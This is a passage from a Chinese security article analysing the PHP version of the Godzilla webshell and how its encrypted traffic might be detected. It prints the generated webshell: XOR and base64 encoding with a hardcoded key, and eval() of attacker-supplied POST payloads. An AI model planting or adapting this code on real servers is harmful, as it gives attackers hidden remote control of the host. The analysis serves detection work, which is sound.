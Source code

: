 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/qnrizGo_B12RzmEF6nePDA)

![](https://mmbiz.qpic.cn/mmbiz_jpg/Ok4fxxCpBb6iclZLNdFVsRROLj5obG15njXne5PxgGeU4WBno9l0yAlqmduxMz7iauOlf1icho8XIZJ3Vt0kJAeUw/640?wx_fmt=jpeg)

  

  

  

前言

  

  

  

“过市面所有静态查杀”、“流量加密过市面全部流量 waf”，伴随着这样的标签，哥斯拉在今年的攻防演练活动中成功亮相。这是赐给红队的又一把尖刀，也让防守队雪上加霜。截至目前，主机层面的主流查杀工具均已覆盖了哥斯拉 webshell 静态规则，但流量层面的检测可能仍然要打一个问号。

  

  

  

webshell 分析

  

  

  

关于哥斯拉的功能，通过《攻防礼盒：哥斯拉 Godzilla Shell 管理工具》这篇文章可以有比较全面的了解。nercis 在《哥斯拉 Godzilla 运行原理探寻》一文中通过生成的 jsp 版 shell 和客户端 jar 包向大家介绍了其运行原理。

由于哥斯拉在处理 jsp 和 php 时加密方式存在差异，本文将从 php 版的 shell 展开，对其运行原理再做一下总结和阐述。

先生成一个 php 静态 shell，加密器选择 PHP_XOR_BASE64。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6iclZLNdFVsRROLj5obG15nSGJxDj1j80XHRqyMhb3b8L3WH3QrAMDYnS9HAxLBkxQrypxpEEwzpQ/640?wx_fmt=png)

生成的 shell 代码如下：

```
<?php
    session_start();
    @set_time_limit(0);
    @error_reporting(0);
    function E($D,$K){
        for($i=0;$i<strlen($D);$i++) {
            $D[$i] = $D[$i]^$K[$i+1&15];
        }
        return $D;
    }
    function Q($D){
        return base64_encode($D);
    }
    function O($D){
        return base64_decode($D);
    }
    $P='s4kur4';
    $V='payload';
    $T='85f35deb278e136e';
    if (isset($_POST[$P])){
        $F=O(E(O($_POST[$P]),$T));
        if (isset($_SESSION[$V])){
            $L=$_SESSION[$V];
            $A=explode('|',$L);
            class C{public function nvoke($p) {eval($p."");}}
            $R=new C();
            $R->nvoke($A[0]);
            echo substr(md5($P.$T),0,16);
            echo Q(E(@run($F),$T));
            echo substr(md5($P.$T),16);
```